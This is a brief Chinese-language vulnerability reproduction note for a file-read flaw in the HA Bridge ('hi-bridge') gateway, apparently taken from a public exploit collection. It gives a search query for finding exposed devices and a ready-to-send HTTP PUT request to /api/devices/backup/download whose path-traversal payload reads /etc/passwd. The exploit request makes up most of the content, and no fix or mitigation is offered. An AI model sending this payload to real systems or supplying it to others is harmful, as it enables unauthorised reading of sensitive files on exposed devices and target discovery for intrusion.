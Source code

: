 # hi-bridge网关download存在文件读取漏洞

# 一、漏洞简介
hi-bridge网关download存在文件读取漏洞

# 二、影响版本
+ hi-bridge网关

# 三、资产测绘
```plain
title="HA Bridge"
```

![1716312169799-4fd5856c-56e1-426d-a253-9230ae522398.png](./img/qezHCxCNYkbHMxcn/1716312169799-4fd5856c-56e1-426d-a253-9230ae522398-746647.png)

# 四、漏洞复现
```plain
PUT /api/devices/backup/download HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 


{"filename":"../../../../etc/passwd"}
```

![1716312291501-52489ea0-9fd1-4509-bf55-917a14eaf026.png](./img/qezHCxCNYkbHMxcn/1716312291501-52489ea0-9fd1-4509-bf55-917a14eaf026-796584.png)



> 更新: 2024-05-23 12:38:07  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/aat3gchwm23g4rhd>